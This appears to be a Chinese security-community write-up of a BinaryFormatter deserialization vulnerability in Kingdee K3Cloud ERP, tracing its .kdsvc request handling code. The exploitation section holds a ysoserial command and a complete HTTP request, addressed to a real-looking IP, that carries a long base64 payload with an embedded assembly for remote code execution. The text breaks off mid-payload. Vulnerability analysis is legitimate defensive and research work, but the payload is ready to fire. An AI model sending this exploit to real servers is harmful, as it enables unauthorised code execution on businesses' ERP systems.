


# 金蝶星空云反序列化漏洞分析 - 先知社区

金蝶星空云反序列化漏洞分析

- - -

# 学习分析过程

Sangfor华东天勇战队[@pant0m](https://github.com/pant0m)  
学习过程：  
poc格式：

```plain
POST /K3Cloud/Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBusinessObjectData.common.kdsvc HTTP/1.1
Host: example.com
Content-Type: text/json

{
    "ap0":"PAYLOAD",
    "format":"3"
}
```

## 访问路由

`web路径:C:\Program Files (x86)\Kingdee\K3Cloud\WebSite`  
找到项目的web.config，定义了一条所有以`*.kdsvc`结尾的，都走`Kingdee.BOS.ServiceFacade.KDServiceFx`dll文件的，`Kingdee.BOS.ServiceFacade.KDServiceFx.KDServiceHandler`类。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201424-fb4809e0-9d9e-1.png)  
直接搜索KDServiceHandler，找到文件。判断了请求url开头结尾。根据我们现有的poc格式，最后进入到`return new KDSVCHandler();`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201424-fb9acbbc-9d9e-1.png)

## KDSVCHandler

先进入`ProcessRequest`方法，然后跟进到`RequestExtractor.Create`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201425-fbe11eaa-9d9e-1.png)

## RequestExtractor.Create

IsContainsJson判断当前请求是不是json，当然，都返回true，讲道理`application/x-www-form-urlencoded`、`multipart/form-data`、`text/json`、`application/json`都是可以的，但是测试发现`application/x-www-form-urlencoded`没成功。

### application/json

[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201425-fc318368-9d9e-1.png)

### multipart/form-data

> 需要注意，特殊字符编码问题，+号可能解码成空格，就不行了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201426-fc96a31a-9d9e-1.png)  
然后进入到`return new JQueryRequestExtractor(**request**, flag)`，然后是`JQueryRequestExtractor.GetNameValueCollection(**request**, **isGet**)`，最终进入到`GetNameValueCollection`方法，其实也就是判断当前是get请求，还是post请求。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201426-fcd92b36-9d9e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201427-fd21a92e-9d9e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201427-fd653392-9d9e-1.png)  
我们进入到`GetByPost`方法，获取请求数据流，赋值为text，并判断当前是不是火狐浏览器，我们直接进入else，有了`Deserialize`看样子是一个反序列化方法，跟进去发现是一个json解析，类似于fastjson.parseobject  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201428-fdc5c82e-9d9e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201428-fe12e9f6-9d9e-1.png)  
遍历值，加入nameValueCollection。至此`RequestExtractor.Create`结束  
下面回到`Kingdee.BOS.ServiceFacade.KDServiceFx.KDSVCHandler`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201429-fe4f3c58-9d9e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201429-fea1795a-9d9e-1.png)

## ProcessRequestInternal

跟进到`this.ExecuteRequest(**webCtx**, **requestExtractor**);`  
继续跟进到`RequestExcuteRuntime.StartRequest(**requestExtractor**, **ctx**);`  
然后到`RequestExcuteRuntime.BeginRquest(**requestExtractor**, **context**);`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201430-fedf3402-9d9e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201430-ff263b22-9d9e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201431-ff71f40e-9d9e-1.png)

### BeginRquest

查看BeginRquest代码。  
前面都是一些设置cookie的操作，没有鉴权，直接进入到`ServiceType serviceType = ServiceTypeManager.BuidServiceType(text3);`  
跟进`BuidServiceType`方法，进行简单的判断，是不是以`common.kdsvc`结尾  
然后进入到`return ServiceTypeManager.ReflectServiceType(Path.GetFileName(**localFile**));`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201431-ffb91c6c-9d9e-1.png)

## ReflectServiceType

```plain
svcFullName
Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBusinessObjectData.common.kdsvc


array
Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBusinessObjectData.

text3 
ServicesStub


text4
GetBusinessObjectData

text5
DevReportService

text6
Kingdee.BOS.ServiceFacade.ServicesStub.

text2
Kingdee.BOS.ServiceFacade.ServicesStub
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201432-0012bbf0-9d9f-1.png)

### BuildServiceType

```plain
private static ServiceType BuildServiceType(string strtype, string ns, string service, string method)


serviceType = ServiceTypeManager.BuildServiceType(text2, text6, text5, text4);

text2 = Kingdee.BOS.ServiceFacade.ServicesStub
text6 = Kingdee.BOS.ServiceFacade.ServicesStub.
text5 = DevReportService
text4 = GetBusinessObjectData
```

此时`fullName =**ns** + "." + **service**;`，`Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService`，相当于是获取了这个类名路径。

`assembly = Assembly.Load(**"Kingdee.BOS.ServiceFacade.ServicesStub"**);`  
个人理解相当于是获取了这个类的对象。  
然后166行，通过`assembly.GetTypes()` 获取这个类的所有方法，遍历这个类的方法，  
下面代码感觉主要就是遍历方法，遍历参数，然后存储  
这时`BuidServiceType`走完了，我们回到`RequestExcuteRuntime`类，进入到`RequestExcuteRuntime.pipeline.ExcuteRequest(kdserviceContext);`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201432-00536a24-9d9f-1.png)

### ExcuteRequest

根据到这个方法后，发现使用for循环，遍历`Kingdee.BOS.ServiceFacade.KDServiceFx` 所有的类，然后调用`OnProcess`方法，  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201433-00a700da-9d9f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201433-00e8a080-9d9f-1.png)  
`Modules`有下面这些类。  
点击`namespace Kingdee.BOS.ServiceFacade.KDServiceFx`就行。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201434-01326ef4-9d9f-1.png)

### ExecuteServiceModule

前几个都没有`OnProcess` 方法，直到`ExecuteServiceModule` 类，有这个方法。  
然后跟进`GetServiceParameters` 方法，获取请求参数。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201434-0180d1f2-9d9f-1.png)

### GetServiceParameters

这个方法，获取参数，并判断参数是不是有`parameters`参数。  
根据poc，是进入到下面else。ap0,ap1,ap2  
注：ap参数可以是ap0，可以是ap1，不能再大了，因为他是根据你请求的参数长度来遍历的  
这个方法，流程走完了，再回到`ExecuteServiceModule`方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201435-01d581e8-9d9f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201435-021a839c-9d9f-1.png)

### SerializerProxy

跟进`SerializerProxy`方法，再次`SerializerManager.Create` 跟进。  
然后发现switch判断，当前`**format**`的值，继而使用相对应的序列化方法。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201435-0253b86a-9d9f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201436-028b3b00-9d9f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201436-02c6a488-9d9f-1.png)  
`MessageFormats` 的值，有下面的值类型。也就是poc中的`"format":"3"`当然，也可以是  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201437-0330932a-9d9f-1.png)

### Execute

下面进入到`Execute`方法。  
这个方法前半部分，意思不大，直接看30行`this.DeserializeParameters(**serializeProxy**, **svcType**, **paraValues**);`有一个反序列化的方法。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201437-03739fd0-9d9f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201438-03c6511c-9d9f-1.png)

### DeserializeParameters

跟进这个方法。  
遍历，反序列化，跟进`Deserialize`方法，  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201438-040f5ea2-9d9f-1.png)

### Deserialize

这个方法，在前面对参数的数据类型，进行了判断。  
不能是string、int、long、bool、DateTime等等。不然不进入到反序列化。  
条件都满足了，进入到`this.proxy.Deserialize` 方法。最后会进入到`BinaryFormatterProxy` 的 `Deserialize` 方法，没有debug，就不跟进了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201439-044b3c24-9d9f-1.png)

## 总结

至此，我们也就梳理清楚了，poc为什么要有`ap0`参数，为什么要有`format`参数，  
这个漏洞的漏洞点并不是poc的url，代码有漏洞，而是这套代码在处理url的逻辑上，经过构造之后有漏洞。

也就是说，我们找一下，别的路由符合这个特性也可以。基本上支持传入object对象的，基本的都可以反序列化。

# 利用过程：

> 利用参考：[https://blog.csdn.net/qq\_41904294/article/details/131332436?spm=1001.2014.3001.5502](https://blog.csdn.net/qq_41904294/article/details/131332436?spm=1001.2014.3001.5502)

需要实现利用代码执行，还是靠a.cs文件。让gpt写。  
利用工具

```plain
.\ysoserial.exe -f BinaryFormatter -g ActivitySurrogateSelectorFromFile -c "a.cs;System.Windows.Forms.dll;System.Web.dll;System.dll"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201439-048ec6b0-9d9f-1.png)

数据包：

```plain
POST /k3cloud/Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBusinessObjectData.common.kdsvc HTTP/1.1
Host: 221.6.180.50:82
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
xxxxx: dir
Content-Type: text/json
Accept-Encoding: gzip, deflate
Content-Length: 15909

{"ap0": "AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5Gb3JtcywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAACFTeXN0ZW0uV2luZG93cy5Gb3Jtcy5BeEhvc3QrU3RhdGUBAAAAEVByb3BlcnR5QmFnQmluYXJ5BwICAAAACQMAAAAPAwAAAMctAAACAAEAAAD/////AQAAAAAAAAAEAQAAAH9TeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5MaXN0YDFbW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24FAAAICAkCAAAACgAAAAoAAAAQAgAAABAAAAAJAwAAAAkEAAAACQUAAAAJBgAAAAkHAAAACQgAAAAJCQAAAAkKAAAACQsAAAAJDAAAAA0GBwMAAAABAQAAAAEAAAAHAgkNAAAADA4AAABhU3lzdGVtLldvcmtmbG93LkNvbXBvbmVudE1vZGVsLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNQUEAAAAalN5c3RlbS5Xb3JrZmxvdy5Db21wb25lbnRNb2RlbC5TZXJpYWxpemF0aW9uLkFjdGl2aXR5U3Vycm9nYXRlU2VsZWN0b3IrT2JqZWN0U3Vycm9nYXRlK09iamVjdFNlcmlhbGl6ZWRSZWYCAAAABHR5cGULbWVtYmVyRGF0YXMDBR9TeXN0ZW0uVW5pdHlTZXJpYWxpemF0aW9uSG9sZGVyDgAAAAkPAAAACRAAAAABBQAAAAQAAAAJEQAAAAkSAAAAAQYAAAAEAAAACRMAAAAJFAAAAAEHAAAABAAAAAkVAAAACRYAAAABCAAAAAQAAAAJFwAAAAkYAAAAAQkAAAAEAAAACRkAAAAJGgAAAAEKAAAABAAAAAkbAAAACRwAAAABCwAAAAQAAAAJHQAAAAkeAAAABAwAAAAcU3lzdGVtLkNv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b2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHksIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBAAAAAYiAAAATlN5c3RlbS5Db3JlLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4ORAQAAAABwAAAAkDAAAACgkkAAAACggIAAAAAAoICAEAAAABEQAAAA8AAAAGJQAAAPUCU3lzdGVtLkxpbnEuRW51bWVyYWJsZStXaGVyZVNlbGVjdEVudW1lcmFibGVJdGVyYXRvcmAyW1tTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAJIgAAABASAAAABwAAAAkEAAAACgkoAAAACggIAAAAAAoICAEAAAABEwAAAA8AAAAGKQAAAN8DU3lzdGVtLkxpbnEuRW51bWVyYWJsZStXaGVyZVNlbGVjdEVudW1lcmFibGVJdGVyYXRvcmAyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0EAAAACSIAAAAQFAAAAAcAAAAJBQAAAAoJLAAAAAoICAAAAAAKCAgBAAAAARUAAAAPAAAABi0AAADmAlN5c3RlbS5MaW5xLkVudW1lcmFibGUrV2hlcmVTZWxlY3RFbnVtZXJhYmxlSXRlcmF0b3JgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmF0b3JgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4w